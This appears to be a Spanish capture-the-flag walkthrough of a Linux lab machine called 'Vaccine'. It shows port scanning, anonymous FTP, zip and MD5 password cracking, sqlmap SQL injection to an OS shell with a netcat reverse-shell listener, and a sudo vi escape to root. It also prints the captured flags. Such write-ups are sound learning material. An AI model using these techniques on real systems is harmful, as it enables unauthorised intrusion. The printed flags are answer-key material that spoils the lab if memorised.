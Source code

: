 # Vaccine

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
*   **Tags:**&#x20;

    • **Vulnerability Assessment**: Evaluación sistemática para identificar y clasificar vulnerabilidades en sistemas, aplicaciones o redes.\
    • **Databases**: Repositorios estructurados de datos que pueden ser vulnerables a ataques como SQL injection.\
    • **Custom Applications**: Aplicaciones desarrolladas a medida que pueden contener vulnerabilidades específicas no presentes en aplicaciones comerciales.\
    • **Protocols**: Conjuntos de reglas que permiten la comunicación entre dispositivos, los cuales pueden ser explotados si contienen fallos.\
    • **Source Code Analysis**: Revisión del código fuente para identificar errores o vulnerabilidades de seguridad.\
    • **PostgreSQL**: Sistema de gestión de bases de datos que puede ser explotado mediante ataques como SQL injection.\
    • **FTP**: Protocolo de transferencia de archivos que puede exponer credenciales si no se implementa de manera segura.\
    • **Password Cracking**: Técnica de descifrado de contraseñas mediante ataques de fuerza bruta o diccionario.\
    • **SUDO Exploitation**: Aprovechamiento de configuraciones inseguras de SUDO para escalar privilegios en un sistema.\
    • **SQL Injection**: Inyección de código malicioso en consultas SQL para manipular bases de datos y extraer información.\
    • **Remote Code Execution**: Ejecución de código malicioso de manera remota en un sistema comprometido.\
    • **Clear Text Credentials**: Exposición de credenciales sin cifrado, lo que facilita su robo en tránsito.\
    • **Anonymous/Guest Access**: Permitir acceso sin autenticación o con credenciales por defecto, facilitando ataques.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.137.77
```

<figure><img src="../../../.gitbook/assets/image (616).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -p- --min-rate 5000 -sV 10.129.137.77
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/image (617).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP,** el **puerto 22** perteneciente al **servicio SSH**  y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

Primero, accedemos a un servidor FTP utilizando el usuario `anonymous`. Esto nos permite descargar un archivo que probablemente está protegido con contraseña.

<figure><img src="../../../.gitbook/assets/image (618).png" alt=""><figcaption></figcaption></figure>

El archivo descargado está protegido con una contraseña. Por lo tanto, necesitamos una herramienta como **John the Ripper** para obtener dicha contraseña.

```bash
zip2john backup.zip > hash.txt
```

<figure><img src="../../../.gitbook/assets/image (619).png" alt=""><figcaption></figcaption></figure>

John the Ripper es una herramienta muy útil para romper contraseñas de archivos protegidos. Vamos a usarlo en conjunto con `zip2john`, que convierte el archivo comprimido en un formato que **John** pueda procesar.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src="../../../.gitbook/assets/image (620).png" alt=""><figcaption></figcaption></figure>

Ahora que tenemos la contraseña, podemos descomprimir el archivo protegido.

<figure><img src="../../../.gitbook/assets/image (621).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido del archivo `index.php` en el que se nos indica el nombre del usuario y su contraseña aunque en formato **MD5**.

<figure><img src="../../../.gitbook/assets/image (623).png" alt=""><figcaption></figcaption></figure>

A través de esta página desciframos la contraseña [https://www.dcode.fr/funcion-hash-md5](https://www.dcode.fr/funcion-hash-md5)

<figure><img src="../../../.gitbook/assets/image (625).png" alt=""><figcaption></figcaption></figure>

Accedemos con las credenciales obtenidas en los pasos anteriores.

<figure><img src="../../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>

Obtenemos el valor de la cookie de cualquier coche.

<figure><img src="../../../.gitbook/assets/image (626).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (627).png" alt=""><figcaption></figcaption></figure>

```bash
sqlmap --url="http://10.129.137.77/dashboard.php?search=meta" --cookie="PHPSESSID=q9uc4eavt4kd65pgi5rc32jvgu" --os-shell
```

No hace falta probar más campos si hemos encontrado ya uno que no es ejecutable. Por lo que usamos una reverse shell.&#x20;

```bash
rlwrap nc -lvnp 443
```

<figure><img src="../../../.gitbook/assets/image (628).png" alt=""><figcaption></figcaption></figure>

Tras conseguir la reverse shell y así poder acceder mostramos el contenido del fichero `dashboard.php` en el que se nos muestra un usuario y una contraseña.

<figure><img src="../../../.gitbook/assets/image (629).png" alt=""><figcaption></figcaption></figure>

### 5. 🔑 **Captura de la Flag**

Vemos que podemos usar **vi** con permisos de root. Accedemos al directorio `/var/lib/postgresql` en el que encontramos la flag del usuario.

<figure><img src="../../../.gitbook/assets/image (630).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (631).png" alt=""><figcaption></figcaption></figure>

ec9b13ca4d6229cd5cc1e09980965bf7

Accededemos a través de **SSH** al usuario con sus credenciales.

```bash
ssh postgres@10.129.137.77
```

<figure><img src="../../../.gitbook/assets/image (632).png" alt=""><figcaption></figcaption></figure>

Debemos de modificar el archivo de configuración utilizando **vi**.

```bash
/bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Observamos está página [https://gtfobins.github.io/gtfobins/vi/](https://gtfobins.github.io/gtfobins/vi/). Una vez en **vi**, presiona **escape** y luego escribe `:!/bin/bash`.

<figure><img src="../../../.gitbook/assets/image (633).png" alt=""><figcaption></figcaption></figure>

Accedemos al directorio de root en el que contiene la bandera de root.

<figure><img src="../../../.gitbook/assets/image (634).png" alt=""><figcaption></figcaption></figure>

**dd6e058e814260bc70e9bbdef2715849**

<figure><img src="../../../.gitbook/assets/image (635).png" alt=""><figcaption></figcaption></figure>

